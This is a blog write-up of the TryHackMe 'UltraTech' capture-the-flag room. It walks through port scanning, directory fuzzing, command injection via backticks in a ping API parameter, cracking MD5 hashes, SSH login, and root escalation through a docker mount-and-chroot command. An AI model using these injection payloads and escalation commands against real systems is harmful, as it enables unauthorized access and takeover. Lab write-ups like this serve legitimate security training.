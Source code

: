 ```yaml
---
layout: default
title : bvr0n - UltraTech Write-up
---
```


# [Main](https://bvr0n.github.io/) &nbsp;&nbsp;   [Contact](https://bvr0n.github.io/contact.html) &nbsp;&nbsp; [About Me](./aboutme.md) <br>

_**Oct 06, 2020**_

[UltraTech](https://tryhackme.com/room/ultratech1) Writeup

## Nmap Scan :

```
bvr0n@kali:~$ nmap -sC -sV -p- 10.10.180.145

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
8081/tcp  open  http    Node.js Express framework
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Directories Brute Forcing :

```
bvr0n@kali:~$ ffuf -c -u http://10.10.180.145:8081/FUZZ -w Documents/Dirbuster/wordlist.txt
auth                    [Status: 200, Size: 39, Words: 8, Lines: 1]
```
```
bvr0n@kali:~$ ffuf -c -u http://10.10.180.145:31331/FUZZ -w Documents/Dirbuster/wordlist.txt
.htaccess               [Status: 403, Size: 300, Words: 22, Lines: 12]
.hta                    [Status: 403, Size: 295, Words: 22, Lines: 12]
.htpasswd               [Status: 403, Size: 300, Words: 22, Lines: 12]
css                     [Status: 301, Size: 321, Words: 20, Lines: 10]
favicon.ico             [Status: 200, Size: 15078, Words: 11, Lines: 7]
images                  [Status: 301, Size: 324, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 6092, Words: 393, Lines: 140]
javascript              [Status: 301, Size: 328, Words: 20, Lines: 10]
js                      [Status: 301, Size: 320, Words: 20, Lines: 10]
robots.txt              [Status: 200, Size: 53, Words: 4, Lines: 6]
server-status           [Status: 403, Size: 304, Words: 22, Lines: 12]
```
In /robots.txt we found this :
```
Allow: *
User-Agent: *
Sitemap: /utech_sitemap.txt
```
Goin to `/utech_sitemap.txt` give us this :
```
/
/index.html
/what.html
/partners.html
```

`/partners.html` seems to be a login page, inspecting the code source and checking what the API does, and this part caught my eyes :
```js
 function checkAPIStatus() {
        const req = new XMLHttpRequest();
        try {
            const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
            req.open('GET', url, true);
            req.onload = function (e) {
                if (req.readyState === 4) {
                    if (req.status === 200) {
                        console.log('The api seems to be running')

```
I tried going to `http://10.10.180.145:8081/ping?ip=10.10.180.145` , And it seems like Code Execution :
```
PING 10.10.180.145 (10.10.180.145) 56(84) bytes of data.
64 bytes from 10.10.180.145: icmp_seq=1 ttl=64 time=0.016 ms

--- 10.10.180.145 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.016/0.016/0.016/0.000 ms
```
I tried to execute other commands and it worked :
```
http://10.10.180.145:8081/ping?ip=10.10.180.145%20`whoami`
ping: www: Temporary failure in name resolution 

http://10.10.180.145:8081/ping?ip=10.10.180.145%20`ls`
ping: utech.db.sqlite: Name or service not known 
```

That file contained password hashes for 2 accounts : `admin` & `r00t`, Let's crack them using an [Online Tool](https://md5decrypt.net/) :
```
r00t : f357a0c******63c7c7b76c1e7543a32 : n****06 
admin : 0d0ea5111e3c1******c1684e3b9be84 : mr****fy 
```

When we login we get this : 
```
Restricted area

Hey r00t, can you please have a look at the server's configuration?
The intern did it and I don't really trust him.
Thanks!

lp1
```

## Internal Enum :

Since we have `r00t` credentials, Let's login to SSH.

After running id looks like we are in a docker :
```
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
```

We then check [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) : 
```
r00t@ultratech-prod:/tmp$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

This command won't work because there is no image named alphinen but we do have bash as image :
```
r00t@ultratech-prod:/tmp$ docker ps -a
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS                       PORTS               NAMES
aee9902a5c43        495d6437fc1e        "docker-entrypoint.s…"   19 minutes ago      Up 17 minutes                                    cocky_goodall
7beaaeecd784        bash                "docker-entrypoint.s…"   18 months ago       Exited (130) 18 months ago                       unruffled_shockley
696fb9b45ae5        bash                "docker-entrypoint.s…"   18 months ago       Exited (127) 18 months ago                       boring_varahamihira
9811859c4c5c        bash                "docker-entrypoint.s…"   18 months ago       Exited (127) 18 months ago                       boring_volhard
```
Executing this command give us root :
```
r00t@ultratech-prod:/tmp$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
root@41ff56823b91:/# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
root@41ff56823b91:/#
```

Thank's [m3dsec](https://github.com/m3dsec) for the reference ;)

<br>
best regards

[bvr0n](https://github.com/bvr0n)


<br>
[back to main()](../../index.md)

<br>
